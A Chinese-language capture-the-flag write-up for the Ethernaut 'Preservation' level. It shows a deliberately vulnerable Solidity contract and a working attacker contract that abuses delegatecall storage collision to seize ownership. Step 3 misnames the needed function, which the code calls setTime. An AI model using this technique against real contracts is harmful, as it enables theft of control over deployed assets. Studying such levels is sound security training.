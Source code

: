 # Ethernaut 16-Preservation

## 本关目标

- 成为合约的 owner

## 合约分析

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Preservation {

  // public library contracts
  address public timeZone1Library;
  address public timeZone2Library;
  address public owner;
  uint storedTime;
  // Sets the function signature for delegatecall
  bytes4 constant setTimeSignature = bytes4(keccak256("setTime(uint256)"));

  // 构造函数中设置了两个合约实例地址
  constructor(address _timeZone1LibraryAddress, address _timeZone2LibraryAddress) {
    timeZone1Library = _timeZone1LibraryAddress;
    timeZone2Library = _timeZone2LibraryAddress;
    owner = msg.sender;
  }

  //设置时间都是使用delegatecall，也就是会修改当前合约的slot0，timeZone1Library会被修改成传入的值
  // set the time for timezone 1
  function setFirstTime(uint _timeStamp) public {
    timeZone1Library.delegatecall(abi.encodePacked(setTimeSignature, _timeStamp));
  }

  // set the time for timezone 2
  function setSecondTime(uint _timeStamp) public {
    timeZone2Library.delegatecall(abi.encodePacked(setTimeSignature, _timeStamp));
  }
}

// Simple library contract to set the time
contract LibraryContract {

  // stores a timestamp
  uint storedTime;

  function setTime(uint _time) public {
    storedTime = _time;
  }
}
```

## 解决方案

1. 构造 Hack 合约，它的状态变量布局前三个和 Preservation 合约一致
2. 在 Hack 中调用 Preservation.setFirstTime(address(this))；修改 timeZone1Library 为 Hack 合约地址
3. 在 Hack 中实现 setFirstTime()，方法中修改 owner 为传入参数
4. 在 Hack 中调用 Preservation.setFirstTime(msg.sender)；修改 owner

```solidity
// SPDX-License-Identifier: MIT

pragma solidity ^0.8.0;

import "./Preservation.sol";

contract Hack {
    // stores a timestamp
  uint storedTime;
  uint stored2Time;
  address owner;

  function hack(address _target) public {
      Preservation p = Preservation(_target);
      p.setFirstTime(uint256(uint160(address(this)))); // 执行完这一步，Preservation中的timeZone1Library 为 Hack 合约地址
      p.setFirstTime(uint256(uint160(msg.sender))); // 再次调用会调用Hack中的setTime
  }

  function setTime(uint _time) public {
    owner = address(uint160(_time));
  }
}
```
